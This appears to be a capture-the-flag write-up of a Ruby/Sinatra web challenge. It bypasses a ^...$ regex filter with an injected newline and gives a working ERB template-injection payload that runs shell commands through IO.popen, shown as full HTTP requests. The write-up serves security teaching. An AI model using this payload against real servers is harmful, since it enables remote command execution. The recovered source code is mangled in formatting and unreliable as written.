 # TFC CTF

## WEB

### DIAMONDS

**Difficulty:** Medium

**Statement:** Write something nice that passes our filter.

***

The website indicates that regexes are in place:

![image](https://user-images.githubusercontent.com/49941629/182034164-957af5a6-c7f2-459b-93e9-09658f21f78b.png)

After some tests on the website and via the name of the challenge, I know that the site is written in Ruby.

The web server sends back via the headers the following information: `WEBrick/1.6.1 (Ruby/2.7.5/2021-11-24)`

Following a long search, I found the following resources that will help me to exploit this flaw in order to bypass the regex.
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/
- http://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

A few tries after, I notice that the regex only let the characters `[a-zA-Z0-9]` through.

Thanks to the above resources, I will modify my HTTP POST request to inject a newline `%0A` in order to perform a command injection if the regex configuration is wrong.

Default POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x
```

Modified POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x%0A
{}
```

I see that the regex is well bypassed :

![image](https://user-images.githubusercontent.com/49941629/182034446-27ac66fc-0f2c-48e0-a000-4d0e76f5dd87.png)

Via the following payload, I can inject commands :

```
input=x%0A
%3C%25%3D%20IO.popen%28%27ls%20-ah%20.%20%2F%27%29.readlines%28%29%20%20%25%3E
```

![image](https://user-images.githubusercontent.com/49941629/182034644-96e00ca0-c14e-49b2-aba2-d4fc2f50f84a.png)

I just have to `cat` the flag with the payload :

![image](https://user-images.githubusercontent.com/49941629/182034715-e10c7fa5-7c1f-4056-95f4-7a0fe26cf143.png)

Flag: TFCCTF{02718f35dddc266e0ac40c0c0dcc98c34edd545678dc752ba9831b6d73bc706f}

By curiosity, I recovered the contents of the file `input.rb` to see the configured regex :

```ruby
require 'sinatra/base'

class Animated_template < Sinatra::Base
configure do
  set: views, app / views
set: public_dir, public
end

get '/'
do
  @input = \"Write something nice here that passes our regex"
erb: 'index'
end

post '/'
do
  if params[: input] = ~/^[0-9a-z ]+$/i
@input = ERB.new(params[: input]).result(binding)
else
  @input = "That is far away from nice !!"
end
erb: 'index'
end

get '/style.css'
do
  erb: 'style'
end
end
```

